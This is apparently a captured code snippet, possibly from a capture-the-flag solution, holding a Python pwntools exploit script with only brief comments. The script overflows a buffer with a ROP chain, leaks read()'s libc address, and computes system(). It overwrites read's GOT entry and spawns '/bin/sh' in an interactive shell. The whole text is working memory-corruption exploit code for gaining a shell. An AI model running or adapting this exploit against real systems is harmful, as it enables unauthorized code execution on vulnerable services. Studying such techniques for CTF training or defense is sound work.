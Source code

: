 ```python

# input "/bin/sh" into bss
rop.read(0, e.bss(), binsh_len)

# got overwrite : read() -> system()
rop.read(0, e.got['read'], 4)

# call func ( system("/bin/sh") )
rop.read(e.bss())

p.send("A"*140 + rop.chain())

# recv read_addr (leak)
read_addr = u32(p.recv(4))
print "[*]read_addr : " +hex(read_addr)

# calc system_addr
system_addr = read_addr - libc.symbols['read'] + libc.symbols['system']
print "[*]system_addr : " + hex(system_addr)

# send "/bin/sh"
p.send(binsh)

# send system_addr
p.send(p32(system_addr))

p.interactive()
```

